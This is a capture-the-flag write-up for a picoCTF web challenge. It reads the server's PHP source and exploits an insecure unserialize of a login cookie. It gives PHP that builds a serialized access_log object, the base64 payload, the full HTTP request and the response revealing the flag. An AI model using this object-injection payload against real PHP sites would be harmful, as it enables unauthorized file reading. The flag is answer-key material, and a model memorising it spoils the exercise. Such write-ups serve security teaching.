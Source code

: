 ## Description
Try to recover the flag stored on this website http://mercury.picoctf.net:3449/

## Solution
We are given a login page. seem the login page is not vulnerable.
Checking `robots.txt` hints on:

```
User-agent: *
Disallow: /admin.phps
```

But checking `admin.phps` path doesn't give us anything:
maybe we need to check phps pathes instead of .php.
So checking `index.phps`:
```php
<?php
require_once("cookie.php");

if(isset($_POST["user"]) && isset($_POST["pass"])){
	$con = new SQLite3("../users.db");
	$username = $_POST["user"];
	$password = $_POST["pass"];
	$perm_res = new permissions($username, $password);
	if ($perm_res->is_guest() || $perm_res->is_admin()) {
		setcookie("login", urlencode(base64_encode(serialize($perm_res))), time() + (86400 * 30), "/");
		header("Location: authentication.php");
		die();
	} else {
		$msg = '<h6 class="text-center" style="color:red">Invalid Login.</h6>';
	}
}
?>
```

seems like the `phps` files show the raw php. Let's use this feature on other files on server and see if we can view their sources.

and checking `authentication.phps`:
```php
<?php

class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}

	function __toString() {
		return $this->read_log();
	}

	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}

require_once("cookie.php");
if(isset($perm) && $perm->is_admin()){
	$msg = "Welcome admin";
	$log = new access_log("access.log");
	$log->append_to_log("Logged in at ".date("Y-m-d")."\n");
} else {
	$msg = "Welcome guest";
}
?>
```

in this file, the function `file_get_contents` is vulnerable to LFI.
But we need to find a way to input our value in this method.

Also it seem there is another file to handle cookies of this site. checking `cookie.phps`:
```php
<?php
session_start();

class permissions
{
	public $username;
	public $password;

	function __construct($u, $p) {
		$this->username = $u;
		$this->password = $p;
	}

	function __toString() {
		return $u.$p;
	}

	function is_guest() {
		$guest = false;

		$con = new SQLite3("../users.db");
		$username = $this->username;
		$password = $this->password;
		$stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
		$stm->bindValue(1, $username, SQLITE3_TEXT);
		$stm->bindValue(2, $password, SQLITE3_TEXT);
		$res = $stm->execute();
		$rest = $res->fetchArray();
		if($rest["username"]) {
			if ($rest["admin"] != 1) {
				$guest = true;
			}
		}
		return $guest;
	}

        function is_admin() {
                $admin = false;

                $con = new SQLite3("../users.db");
                $username = $this->username;
                $password = $this->password;
                $stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
                $stm->bindValue(1, $username, SQLITE3_TEXT);
                $stm->bindValue(2, $password, SQLITE3_TEXT);
                $res = $stm->execute();
                $rest = $res->fetchArray();
                if($rest["username"]) {
                        if ($rest["admin"] == 1) {
                                $admin = true;
                        }
                }
                return $admin;
        }
}

if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}

?>
```

`unserialize` method is also vulnerable to php objection injection.
So the attack scenario is accessible now:
- we need to pass our pyaload in login value in cookie which is a serialized object.
- because we want to read flag file, we should use access_log class `read_log` method.
- to see the `../flag` file contents, we need to create a serialized string of access_log which `log_file` value is set to `../flag` (Note it should be base64 encoded)

Ok now we create a instance of `access_log` with log_file equal to `/etc/passwd`.


```php
class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}
}

$serializer = new access_log("/etc/passwd");
$serialized_value = serialize($serializer);
echo base64_encode($serialized_value);
```
and run it with php shell using `php -a` as follow:

```bash
$ php -a
Interactive shell

php > class access_log
{
        public $log_file;

        function __construct($lf) {
                $this->log_file = $lf;
        }
}

$serializer = new access_log("../flag");
$serialized_value = serialize($serializer);
echo base64_encode($serialized_value);
TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9
```

and send `TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9` in `login` value in `cookie` like follow:

```
GET /authentication.php HTTP/1.1
Host: mercury.picoctf.net:3449
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 28
Origin: http://mercury.picoctf.net:3449
Connection: close
Referer: http://mercury.picoctf.net:3449/index.php
Cookie: auth_name=TE1YOFZTSU0zYWh1VkpjYUVNQTdXVG01clZRbVplb0NWQWdSZ1hPNCsxRUhMQ3FQUEdWdEttaWhXbm1qbW1Ja3JDWVpLWW8vYVlMTVZsazVCZXlkWkpIZHhyMzRpMmFMTUQ2b1Q1dGtuQmQyeGZNQUlaNFpGaGwzdzc5MkM3TXQ=; name=18; PHPSESSID=j62q4iq5g1nosspa3vvp9puc14; login=TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9
Upgrade-Insecure-Requests: 1

```

Note to send request to `authenticaion.php` path. because in this path the access_log object is deserialized and access.

and will print the contents of `../flag` file:
```
HTTP/1.1 200 OK
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-type: text/html; charset=UTF-8

Deserialization error. picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_b4e3f8b1}
```